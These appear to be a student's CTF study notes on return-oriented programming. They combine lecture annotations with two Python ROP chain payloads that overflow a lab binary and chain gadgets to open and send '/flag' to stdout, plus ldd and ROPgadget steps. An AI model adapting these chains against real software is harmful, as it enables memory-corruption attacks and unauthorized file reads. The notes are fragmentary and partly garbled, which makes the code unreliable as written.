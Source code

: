 Gadgets address base and reuse it

ADD REGISTER
1. PUt that value on the stack
2. POP gadget
SKIP REGISTER
1. POP gadget
NOP
1. ret;
	1. Go to next address and next gadget
	2. SKIP and go NEXT
2. nop ret
STACK PIVOTING
1. xchg
	1. EXCHANGE REGISTER VALUE
	2. ATOMIC instruction
	3. exchange RSP
	4. Original space
	5. NO limitation of overflowed stack anymore
2. LOC

syscall instuction
	VERY RARE

OPEN FILE/READ FILE/CHANGE THE OWNER/CHANGE OF THE PERMISSION
> Function call to C library (Systemcall wrapper) -> 

OPEN THE FLAG and print value> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,10,0,11|L13 Return-oriented Programming, p.38]]
> > ,
> 
> STDOUR> [!PDF|] [[L13 Return-oriented Programming.pdf#page=38&selection=0,36,0,40|L13 Return-oriented Programming, p.38]]> [!PDF|] [[L13 Return-oriented Programming.pdf#page=42&selection=40,2,40,6|L13 Return-oriented Programming, p.42]]
> flag
.data section

> > 1000
> 
> OFfset


```
# sendfile64 0x7ffff7ed6100 # open64 0x7ffff7ed0e50  
# .date 0x0000000000404030 p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404028) # @ .data  
p += pack('<Q', 0x00007ffff7dff174) # pop rax ; ret  
p += '/flag'  
p += pack('<Q', 0x00007ffff7e6b85b) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x00007ffff7ed0e50) # open64  
p += pack('<Q', 0x00007ffff7f221e2) # mov rsi, rax ; shr ecx, 3 ; rep movsq qword ptr [rdi], qword ptr [rsi] ; ret  
p += pack('<Q', 0x00007ffff7de6b72) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7edc371) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7e5f822) # pop rcx; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00007ffff7ed6100) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x00007ffff7de584d) # syscall  
print p
```

```
# sendfile64 0x7ffff7ed6100 # open64 0x7ffff7ed0e50  
# .date 0x0000000000404030 p = ''

p += "A"*56  
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000404028) # @ .data  
p += pack('<Q', 0x00007ffff7dff174) # pop rax ; ret  
p += '/flag'  
p += pack('<Q', 0x00007ffff7e716eb) # mov qword ptr [rdi], rax ; ret p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x000000000010e030) # open64  
#pop rsi ret

p += pack('<Q', 0x00007ffff7def01f) # pop rsi ; ret  
p += pack('<Q', 0x0000000000000001) # 3  
p += pack('<Q', 0x00007ffff7f28468) # rep movsq qword ptr [rdi], qword ptr [rsi] ; ret
p += pack('<Q', 0x00007ffff7decb6a) # pop rdi ; ret  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7ee2431) # pop rdx ; pop r12 ; ret  
p += pack('<Q', 0x0000000000000000) # 0  
p += pack('<Q', 0x0000000000000001) # 1  
p += pack('<Q', 0x00007ffff7e5f822) # pop rcx ; ret  
p += pack('<Q', 0x0000000000000050) # 80  
p += pack('<Q', 0x00000000001131c0) # sendfile64  
p += pack('<Q', 0x00007ffff7e0a550) # pop rax ; ret  
p += pack('<Q', 0x000000000000003c) # 60  
p += pack('<Q', 0x0000000000118940) # syscall  
print p
```

1. ldd로 확인
```
ctf@bufferoverflow_overflowret4_no_excstack_64:/$ ldd ./bufferoverflow_overflowret4_no_excstack_64 
        linux-vdso.so.1 (0x00007ffff7fcd000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007ffff7dc9000)
        /lib64/ld-linux-x86-64.so.2 (0x00007ffff7fcf000)
```
2. ROPGADGET으로 가젯 찾기
```
python3 ROPgadget/ROPgadget.py --binary ./bufferoverflow_overflowret4_no_excstack_64

python3 ROPgadget/ROPgadget.py --binary /lib/x86_64-linux-gnu/libc.so.6


```
3. objdump로 메모리 주소 확인하기